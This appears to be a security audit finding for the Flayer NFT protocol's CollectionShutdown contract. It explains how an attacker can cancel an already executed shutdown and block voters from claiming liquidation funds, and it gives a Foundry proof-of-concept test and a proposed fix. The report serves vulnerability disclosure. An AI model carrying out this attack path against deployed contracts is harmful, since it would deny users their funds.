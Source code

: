 Warm Daisy Tiger

High

# Voters will be blocked from claiming liquidation share

### Summary

After the shutdown is executed, an attacker can brick the shutdown parameters (by voting and creating new collection token) to successfully cancel the shutdown. This will delete all shutdown parameters and block voters from claiming liquidation share.

### Root Cause

- The function `CollectionShutdown#cancel()` [requires that the shutdown is `canExecute`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L393).
- However, even after it is executed, an user can still votes and [change the flag `canExecute` to true](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L208-L211)
- The function `CollectionShutdown#cancel()` can be executed if [`params.collectionToken.totalSupply >= MAX_SHUTDOWN_TOKENS * 10 ** locker.collectionToken(_collection).denomination()`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L398), which means that the total supply of the **delisted** (delisted from `Locker`) collection token is higher than the **current** collection token for that `_collection`
- The function `CollectionShutdown#cancel()` will [delete the collection shutdown parameters](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L403), which will cause the function `CollectionShutdown#claim()` to [revert here](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L292). The same revert happens with function [`voteAndClaim()`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/utils/CollectionShutdown.sol#L326)

### Internal pre-conditions

1. An user calls `CollectionShutdown#start()`
2. Users call `CollectionShutdown#vote()`
3. Quorum passes
4. Owner calls `CollectionShutdown#execute()`
5. The `Locker` contract will delist the collection, through the call at step 4

### External pre-conditions

_No response_

### Attack Path

1. After shutdown is executed, an attacker calls `CollectionShutdown#vote()`
2. Attacker calls `Locker#createCollection()` for the targeting collection address
3. Attacker calls `CollectionShutdown#cancel()`
4. Voters fail to call `CollectionShutdown#claim()`

### Impact

- Voters can not claim their liquidation share

### PoC

Update the test `test_CanExecuteShutdown` as below:

```solidity
    function test_CanExecuteShutdown() public withDistributedCollection {
        // Make a vote with our test user that holds `1 ether`, which will pass quorum
        collectionShutdown.vote(address(erc721b));

        // Confirm that we can now execute
        assertCanExecute(address(erc721b), true);

        // Mint NFTs into our collection {Locker}
        uint[] memory tokenIds = _mintTokensIntoCollection(erc721b, 3);

        // Process the execution as the owner
        collectionShutdown.execute(address(erc721b), tokenIds);

        // After we have executed, we should no longer have an execute flag
        assertCanExecute(address(erc721b), false);

        // Confirm that the {CollectionToken} has been sunset from our {Locker}
        assertEq(address(locker.collectionToken(address(erc721b))), address(0));

        // Confirm that our sweeper pool has been assigned
        ICollectionShutdown.CollectionShutdownParams memory shutdownParams = collectionShutdown.collectionParams(address(erc721b));
        assertEq(shutdownParams.sweeperPool, SUDOSWAP_POOL);

        // Ensure that `canExecute` has been set to `false`
        assertCanExecute(address(erc721b), false);

        // Confirm that our tokens are held by the sudoswap pool
        for (uint i; i < tokenIds.length; ++i) {
            assertEq(erc721b.ownerOf(tokenIds[i]), SUDOSWAP_POOL);
        }

        // Test that our price will decline in a linear manner
        (,,, uint inputAmount,,) = ILSSVMPair(shutdownParams.sweeperPool).getBuyNFTQuote(0, 1);
        assertEq(inputAmount, 500 ether + 2.5 ether);

        // After 1 day
        vm.warp(block.timestamp + 1 days);
        (,,, inputAmount,,) = ILSSVMPair(shutdownParams.sweeperPool).getBuyNFTQuote(0, 1);
        assertEq(inputAmount, 430.714285714285714286 ether);

        // After 7 days
        vm.warp(block.timestamp + 6 days);
        (,,, inputAmount,,) = ILSSVMPair(shutdownParams.sweeperPool).getBuyNFTQuote(0, 1);
        assertEq(inputAmount, 0);

        // Assume that attacker has Collection Token to vote
        vm.startPrank(address(locker));
        collectionToken.mint(address(this), 1 ether);
        vm.stopPrank();
        collectionShutdown.vote(address(erc721b));


        // Assume that attacker has at least 1 NFT
        erc721b.mint(address(this), 123);
        // attacker create collection token
        locker.createCollection(address(erc721b), "ASD", "ASD", 0);

        // attacker deposit to locker
        erc721b.approve(address(locker), 123);
        locker.deposit(address(erc721b), _tokenIdToArray(123), address(this));
        
        // call cancel to delete shutdown parameters
        collectionShutdown.cancel(address(erc721b));
        
        // Assume that NFTs on sudoswap liquidated 
        deal(shutdownParams.sweeperPool, 10 ether);
        vm.startPrank(shutdownParams.sweeperPool);
        address(collectionShutdown).call{value: 10 ether}('');
        vm.stopPrank();

        // Try to claim funds
        collectionShutdown.claim(address(erc721b), payable(address(this)));
    }
```

Run the test and console shows:
```bash
Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[FAIL. Reason: ShutdownNotExecuted()] test_CanExecuteShutdown() (gas: 2126131)
```

### Mitigation

- Update logic for function `cancel()` to prevent executed shutdown from cancellation